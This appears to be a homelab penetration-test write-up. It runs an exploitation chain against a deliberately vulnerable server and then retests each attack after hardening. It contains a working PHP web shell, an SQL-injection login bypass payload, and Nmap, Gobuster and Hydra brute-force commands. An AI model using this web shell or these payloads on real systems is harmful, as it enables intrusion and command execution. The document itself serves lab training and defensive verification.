

<p align="center">
  
  
  
  
</p>

<h1 align="center">v1.0.0: Exploitation Chain & Post-Hardening Retest</h1>

## 1. Overview

This document covers the full exploitation chain against the vulnerable baseline described in [enterprise-homelab-core, v1.0.0-vulnerable.md](https://github.com/pagarkristian/enterprise-homelab-core/blob/main/v1.0.0/v1.0.0-vulnerable.md), followed by a retest of every one of those same attacks against the hardened server from [v1.1.0-hardened.md](https://github.com/pagarkristian/enterprise-homelab-core/blob/main/v1.0.0/v1.1.0-hardened.md).

### Network Topology



---

## Phase 1: Network Setup

The Auditor Node (Kali Linux) was configured on the same host-only subnet as the target.

```bash
sudo nano /etc/network/interfaces
```


```yaml
# Internet WAN (NAT)
auto eth0
iface eth0 inet dhcp

# Internal DMZ Segment (Host-Only)
auto eth1
iface eth1 inet static
    address 10.216.27.10
    netmask 255.255.255.0
    gateway 10.216.27.1
```


```bash
sudo systemctl restart networking
```


Verifying the interface and connectivity:

```bash
ip a
```


```bash
sudo nano /etc/resolv.conf
```


```bash
ping -c 3 10.216.27.1
ping -c 3 10.216.27.100
```


Both hosts responded with 0% packet loss, confirming the lab network was reachable end-to-end.

---

## Phase 2: Reconnaissance

### Port Scan (Nmap)

```bash
nmap -Pn -p- -sC -sV -T5 10.216.27.100
```


Open ports found:
- **21/tcp (FTP)** — `vsftpd 3.0.5`, anonymous login enabled (response code 230) — an immediate data-exposure vector.
- **22/tcp (SSH)** — `OpenSSH 9.6p1`, consistent with a stock Ubuntu install.
- **80/tcp (HTTP)** — `Apache 2.4.58`, presenting a login portal.

### Directory Discovery (Gobuster)

```bash
gobuster dir -u http://10.216.27.100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10
```


Found `/javascript` and `/ubuntu`. Browsing `/javascript` directly returned 403 Forbidden, so directory listing wasn't enabled there.


---

## Phase 3: Login Bypass via SQL Injection

The admin portal at `http://10.216.27.100`:


The username field has no input validation. Submitting:

```text
Username: admin'#
Password: (anything)
```


**Why it works:** the backend builds the query by direct string concatenation:

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass'
```

With `admin'#` as the username, the query becomes:

```sql
SELECT * FROM users WHERE username = 'admin'#' AND password = '$pass'
```

The single quote closes the string early, and `#` tells MySQL to treat everything after it as a comment — so the password check is never evaluated. The query succeeds as a lookup for `admin` alone, and the session is logged in without a valid password.

---

## Phase 4: Arbitrary File Upload to Remote Code Execution

The admin dashboard's upload feature has no extension check.

### Writing a Web Shell

```bash
sudo nano exploit.php
```


```php
<?php
// Minimal web shell for RCE verification
if (isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = $_GET['cmd'];
    system($cmd);
    echo "</pre>";
    die();
}
?>
```


### Uploading It

Uploaded through the "Update Laporan Bulanan" form. No extension check rejected it:


```text
Berhasil! File telah diunggah ke: uploads/exploit.php
```

### Confirming Code Execution

```text
http://10.216.27.100/uploads/exploit.php?cmd=whoami
→ www-data
```


```text
http://10.216.27.100/uploads/exploit.php?cmd=ls -la /var/www/html
→ confirms uploads/ is world-writable (777)
```


The upload endpoint's only check was "did this arrive via a real HTTP upload" — nothing about what the file *was*. That's enough to go from an uploaded file to running arbitrary commands as `www-data`.

---

## Phase 5: Credential Hunting & SSH Brute-Force

With only `www-data`-level access from the web shell, the next goal was an interactive session with higher privileges.

### Building a Wordlist

```bash
nano users_wordlist.txt
```


```bash
nano password.txt
```


### Dictionary Attack (Hydra)

```bash
hydra -l ubuntu -P password.txt ssh://10.216.27.100
```

Recovered: `ubuntu` / `ubuntu`.


```bash
ssh ubuntu@10.216.27.100
```


Login succeeded — an interactive shell as `ubuntu`.

### Flag Capture

**User flag**, via the anonymous FTP share:

```bash
cat /var/ftp/pub/user.txt
```


`UTM{ftp_anonymous_data_exposure_9f27d8}`

**Root flag**, after privilege escalation to root:

```bash
cat /root/root.txt
```


`UTM{root_ssh_privilege_escalation_b623cf}`

---

## Phase 6: Post-Hardening Retest

After the server was hardened (see [v1.1.0-hardened.md](https://github.com/pagarkristian/enterprise-homelab-core/blob/main/v1.0.0/v1.1.0-hardened.md)), every attack above was re-run from the same Auditor Node to confirm each path actually closed — not just that the config looked right.

### A. SQL Injection Re-Attack

Re-submitting `admin'#`:


**Result:** the input is now bound as a literal string parameter by the prepared statement, not interpreted as SQL. Login is rejected. **Fixed.**

### B. File Upload Re-Attack

Attempting to re-upload `exploit.php` through the same form:


**Result:** the server-side extension whitelist rejects `.php` before `move_uploaded_file()` is ever called — `Gagal! Format file tidak diizinkan`. **Fixed.**

### C. SSH Brute-Force Re-Attack

Re-running Hydra against the new port:

```bash
hydra -l ubuntu -P password.txt ssh://10.216.27.100 -s 2222
```


**Result:** Fail2Ban detects the failed-login burst in `/var/log/auth.log` and bans the attacker's IP (`10.216.27.10`) after the configured threshold. Password auth is also disabled entirely (key-only). **Fixed.**


### D. Anonymous FTP Re-Test


**Result:** anonymous login now returns `530 Login incorrect`. **Fixed.**

### E. MikroTik Perimeter


Unsolicited inbound traffic from the WAN-facing interface is dropped at the gateway, and only port 2222 is forwarded through to the target for SSH.

### Not retested

The unauthenticated Samba share found during the original audit was not re-attacked in this cycle — carried forward as an open item rather than assumed fixed.

---

## 7. Conclusion

Every attack that succeeded against the v1.0.0 baseline — SQL injection, arbitrary file upload to RCE, SSH brute-forcing, and anonymous FTP access — failed against the hardened v1.1.0 server. The fixes held at the network layer (MikroTik), the service layer (SSH, FTP, Fail2Ban), and the application layer (prepared statements, upload validation), confirming the hardening pass actually closed the gaps rather than just reconfiguring around them.

---

<div align="center">
  <sub>Redteam Homelab Toolkit v1.0.0 · Maintained by <b>pagarkristian</b></sub>
</div>
